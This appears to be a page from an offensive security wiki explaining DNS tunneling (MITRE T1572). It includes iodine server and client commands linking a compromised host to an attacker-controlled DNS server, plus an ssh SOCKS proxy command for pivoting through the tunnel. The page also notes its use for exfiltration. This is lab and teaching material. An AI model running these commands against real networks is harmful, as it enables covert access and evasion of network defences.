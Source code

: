 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# DNS Tunneling

## Theory

DNS Tunneling also known as **TCP over DNS**, is another method used for covert communication and circumventing network security measures. In DNS tunneling, data is encoded in DNS queries and responses to create a communication channel between two endpoints. DNS, which is primarily designed for translating domain names to IP addresses, becomes a carrier for data that may not be related to traditional domain resolution.

{% hint style="danger" %}
DNS tunneling may also be used as an [exfiltration](../exfiltration/dns.md) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="iodine" %}
[iodine](https://github.com/yarrick/iodine) is a C software that lets you tunnel IPv4 data through a DNS server.\
On the attacking machine we can run the server:

```bash
v4resk@kali$ sudo iodined -f -c -P password 10.1.1.1/24 my.attackingDnsServer.com    
```

On the compromised host, the jumpbox, we will setup the iodine client:

```bash
victim@pwnd.lab$ sudo iodine -P password my.dnsServer.com     
```

Now the attacking machine and the compromised host are sending traffics throught the `dns0` interface. All communication over this interface on the network 10.1.1.1/24 will be over the DNS. We can then setup a socks5 proxy using the `-D` argument of ssh client.

```bash
veresk@kali$ ssh victim@10.1.1.2 -4 -D 1080 -Nf
```
{% endtab %}

{% tab title="dnscat2" %}
TODO
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
